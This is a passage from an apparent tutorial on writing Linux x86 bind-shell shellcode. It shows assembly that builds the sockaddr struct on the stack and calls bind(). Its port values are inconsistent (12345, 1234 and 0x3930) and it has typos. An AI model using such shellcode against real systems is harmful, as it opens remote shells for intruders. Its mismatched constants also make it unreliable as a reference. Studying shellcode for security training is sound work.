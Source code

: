 ```
pop ebx
```

Now we'll need to setup our bind() arguments correctly. If you recall from earlier our C code for the bind arguments were:

```c
bind(host_sock, (struct sockaddr *)&host_addr, sizeof(host_addr));
```

host_addr is a struct, which is basically just a group of variables. We setup that struct with the following:

```c
host_addr.sin_family = AF_INET;
host_addr.sin_port = htons(12345);
host_addr.sin_addr.s_addr = INADDR_ANY;
```

So we'll need to create this and utilize the stack to do so. 

INADDRY_ANY is defined in `/usr/src/linux-headers-4.4.0-31/include/uapi/linux/in.h` as 0.

htons(1234) can be converted into hex and then reversed for network byte order as 0xd204.

And we already know from earlier AF_NET is 2.

Since we need a 0 for our first argument to PUSH, we'll start by XOR'ing out EDX, which we haven't used yet. Then PUSH it to the stack.

```nasm
xor edx, edx
push edx
```

Next we'll push our port number to the stack. And since EBX already contains a 2, we can go ahead and push that.

```nasm
push word 0x3930
push bx
```

Now with our arguments setup correctly on the stack we can point ECX to the stack.

```nasm
mov ecx, esp
```

With our struct in place now we are ready to pass the bind arguments which will be the size of our struct, a pointer to our struct, and finally our socket we created from earlier(stored in EDI).

The size of our struct is 16 (0x10) so we'll push that to stack. We'll also push the value of ECX since it's currently pointing at the struct located on the stack. Finally we push our socket, and then point ECX to the top of the stack with all the arguments ready to be executed.

```nasm
push 0x10
push ecx
push edi
mov ecx, esp
int 0x80
```
After we execute the bind we go ahead and clear out EAX for use in the next step.
